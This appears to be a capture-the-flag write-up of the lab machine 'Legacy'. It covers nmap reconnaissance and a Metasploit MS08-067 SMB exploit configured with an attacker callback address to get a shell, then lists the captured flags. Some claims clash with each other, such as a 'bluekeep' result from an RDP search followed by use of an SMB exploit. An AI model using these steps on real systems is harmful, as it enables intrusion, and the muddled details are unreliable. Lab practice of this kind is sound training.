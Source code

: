 ### IP
`10.10.10.4`

# Recon

### nmap
`nmap -sC -sV 10.10.10.4 -o Legacy.nmap`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-18 21:29 EST
Nmap scan report for 10.10.10.4
Host is up (0.048s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h56m34s, deviation: 1h24m51s, median: -4h56m35s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:77:8e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-19T01:33:18+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.51 seconds

```
* looks like we have smb on ports 139 & 445 with a workgroup called `HTB\x00`
* also looks like rdp on port 3389

# Exploitation

### rdp
* I tried out some exploits here that were on searchsploit, but it looked like rdp maybe wasn't actually up and running on the machine?
* One of the exploits I tried out is in this writeup directory if you'd like to try for yourself

### smb

* We can look for exploits in metasploit.
	* `search rdp` shows us an interesting exploit called "bluekeep"
* Let's set up the exploit:
* Note: `10.10.14.19` should be replaced with your own ip
```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.10.10.4
set LHOST 10.10.14.19
run
```
* This gives us a session with access to the command prompt 

* Looking around the directories a bit, I see `C:\Documents and Settings\john\Desktop`, which has a `user.txt` file in it
* I must have spent like 10 minutes trying the `type` and `more` and other commands to cat out the file. After writing `help`, it turns out `cat is an available command.
* `cat user.txt` give us the user flag: `e69af0e4f443de7e36876fda4ec7644f`

* If we go to `C:\Documents and Settings\Administrator\Desktop`, we get the root flag as well: `993442d258b0e0ec917cae9e695d5713`


